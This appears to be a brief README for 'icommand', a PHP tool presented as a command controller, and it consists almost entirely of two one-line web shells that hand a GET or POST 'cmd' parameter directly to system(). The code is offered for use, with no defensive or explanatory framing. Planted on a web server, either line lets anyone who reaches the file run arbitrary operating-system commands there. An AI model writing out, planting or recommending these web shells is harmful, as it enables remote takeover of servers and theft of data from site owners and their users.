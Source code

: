 ### icommand ### - command controller for PHP system function
---
- icommand works for **POST** and **GET** requests:
>       <?php system($_GET['cmd']); ?>
>       <?php system($_POST['cmd']); ?> 
